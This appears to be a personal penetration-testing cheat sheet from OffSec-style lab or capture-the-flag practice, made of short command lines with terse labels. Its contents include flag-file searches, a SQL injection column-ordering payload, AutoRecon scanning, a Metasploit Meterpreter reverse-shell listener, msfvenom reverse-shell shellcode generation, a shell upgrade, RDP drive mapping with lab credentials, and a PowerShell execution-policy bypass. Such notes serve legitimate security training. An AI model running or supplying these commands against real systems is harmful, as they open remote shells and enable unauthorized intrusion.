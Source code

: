 find ~/ -type f -exec grep -l "OS{" {} \;      ----FLAG FINDER

'ORDER%20BY%206--//            -----ORDER OF COLUMNS IN SQL

find / -name "flag.txt" -print   -----flag finder in Windows environment

.dir /s /b | findstr /i "OS{"

source myenv/bin/activate              --- TO ACTIVATE THE VIRTUAL ENVIRONMENT

Get-ChildItem -Path C:\ -Recurse -File -Filter 'flag.txt'   ---Powershell cmd

sudo env "PATH=$PATH" autorecon 192.168.225.194 ---AUTORECON

```sh
SHELL=/bin/bash script -q /dev/null
```
UPGRADE THE SHELL

PAYLOADS BY TYPE msfvenom -l payloads | grep "cmd/unix*"  ^44c81b

#linux
find / -type f -name flag.txt 2>/dev/null
#windows cmd
where /r c:\ flag.txt
#windows powershell
gci -recurse -File -ErrorAction SilentlyContinue -Path "\" -filter "flag.txt"


 xfreerdp /v:192.168.215.61 /u:offsec /p:lab /drive:C:\,/home/hollacosta/Downloads            IMPORTANT CMD TO MAP A DRIVE WHILE REMOTING INTO A WINDOWS  COMPUTER

msfconsole -x "use exploit/multi/handler;set payload windows/meterpreter/reverse_tcp;set LHOST 192.168.45.181;set LPORT 443;run;"
METERPRETER REVERSE SHELL LISTENER

msfvenom -p windows/shell_reverse_tcp LHOST=192.168.x.x LPORT=8443 -f python -b "\x00\x20" -v shellcode
REGULAR REVERSE SHELL SHELLCODE


powershell -ep bypass 
it's attempting to bypass the execution policy that might be in place, so you can more easily run things like ps1 scripts




**FORCE TO KILL ANY PORT**
For an 'all in one' linux command, check out [fuser](https://linux.die.net/man/1/fuser). `fuser -k 8080/tcp 8080/udp` should kill anything listening on 8080.
